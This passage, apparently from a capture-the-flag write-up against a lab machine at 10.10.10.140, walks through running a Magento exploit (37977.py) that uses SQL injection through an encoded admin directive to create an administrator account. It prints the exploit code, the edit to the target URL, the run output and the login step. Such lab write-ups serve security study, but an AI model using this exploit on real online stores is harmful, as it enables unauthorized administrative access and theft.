       
      query = q.replace("\n", "").format(username="forme", password="forme")
      pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)
      
      # e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
      r = requests.post(target_url, 
                        data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                              "filter": base64.b64encode(pfilter),
                              "forwarded": 1})
      if r.ok:
          print "WORKED"
          print "Check {0}/admin with creds forme:forme".format(target)
      else:
          print "DID NOT WORK"
      # ...omitted...
      ```
   3. Tweak the exploit:
      ```py
      # [CHANGE]
      target = "http://target.com/"

      # [TO]
      target = "http://10.10.10.140/index.php/"
      ```
   4. Run the exploit:
      ```console
      $ python 37977.py
        WORKED
        Check http://10.10.10.140/index.php/admin with creds forme:forme
      ```

3. Login using the created credentials on __`http://10.10.10.140/index.php/admin`__:
   